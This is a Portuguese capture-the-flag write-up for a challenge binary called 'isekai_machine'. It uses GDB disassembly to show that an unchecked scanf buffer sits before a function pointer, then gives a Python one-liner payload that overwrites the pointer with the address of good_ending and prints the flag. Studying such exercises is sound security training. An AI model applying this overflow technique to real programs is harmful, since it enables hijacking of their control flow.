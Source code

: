 Em que há o valor `0x401232` sendo inicializado em `rbp-8`. Se olharmos novamente o código-fonte, percebemos que a única inicialização de variável ocorre com o ponteiro de função. Então `0x401232` deve ser o endereço da função `bad_ending()`. Podemos conferir no GDB, imprimindo o endereço dessa função.

```
(gdb) print bad_ending
$1 = {<text variable, no debug info>} 0x401232 <bad_ending>
```

Agora precisamos saber onde o buffer está. Focando nos argumentos da `scanf()`, temos as seguintes instruções:
```
   ...
   0x0000000000401283 <+50>:    lea    rax,[rbp-0x10]    ; Carrega o buffer (rbp-16) em rax
   0x0000000000401287 <+54>:    mov    rsi,rax           ; Coloca o buffer em rsi (2º argumento em função de 64-bits)
   0x000000000040128a <+57>:    mov    edi,0x40210b      ; Coloca a format string em rdi (1º argumento em função de 64-bits)
   0x000000000040128f <+62>:    mov    eax,0x0
   0x0000000000401294 <+67>:    call   0x4010e0 <__isoc99_scanf@plt>
   ...
```

Portanto, o buffer está em rbp-16. Como o buffer está antes do ponteiro de função, concluímos que é possivel sobrescrever esse ponteiro.

Como a stack está organizada assim:

```
        +----------+
 rsp -> |  buffer  | (16 bytes)    <- [rbp-16]
        | func_ptr |
        +----------+
 rbp -> |rbp antigo| (8 bytes)
        +----------+
        | Ret Addr | (8 bytes)
        +----------+
```

Então após escrevermos 8 bytes no buffer, estaremos imediatamente sobrescrevendo o ponteiro de função.

Precisamos do endereço da função `good_ending()`, então podemos encontrá-la no GDB:

```
(gdb) print good_ending
$2 = {<text variable, no debug info>} 0x4011d6 <good_ending>
```

Utilizando o seguinte payload:
```
python -c "print('A' * 8 + '\xd6\x11\x40\x00\x00\x00\x00\x00')" | ./isekai_machine
```

Obtemos a flag:
```
Escreva o mundo que você deseja ser reincarnado:
Você foi parar em...
Continua no próximo episódio. Toma sua flag
Ganesh{p0wer_0f_fr13ndsh1p}
```
